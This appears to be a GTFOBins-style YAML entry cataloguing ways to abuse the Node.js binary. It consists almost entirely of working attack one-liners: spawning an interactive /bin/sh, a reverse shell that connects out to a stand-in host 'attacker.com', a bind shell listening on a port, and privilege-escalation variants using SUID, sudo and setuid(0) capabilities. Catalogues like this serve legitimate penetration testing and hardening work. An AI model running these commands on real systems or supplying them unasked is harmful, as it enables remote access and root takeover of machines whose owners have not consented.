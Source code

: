 ```yaml
---
functions:
  execute-interactive:
    - code: |
        node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        node -e 'sh = require("child_process").spawn("/bin/sh");
        net.connect(process.env.RPORT, process.env.RHOST, function () {
          this.pipe(sh.stdin);
          sh.stdout.pipe(this);
          sh.stderr.pipe(this);
        });'
  bind-shell-interactive:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        node -e 'sh = require("child_process").spawn("/bin/sh");
        require("net").createServer(function (client) {
          client.pipe(sh.stdin);
          sh.stdout.pipe(client);
          sh.stderr.pipe(client);
        }).listen(process.env.LPORT);'
  suid-enabled:
    - code: |
        ./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]});'
  sudo-enabled:
    - code: |
        sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
  capabilities-enabled:
    - code: |
        ./node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
---
```

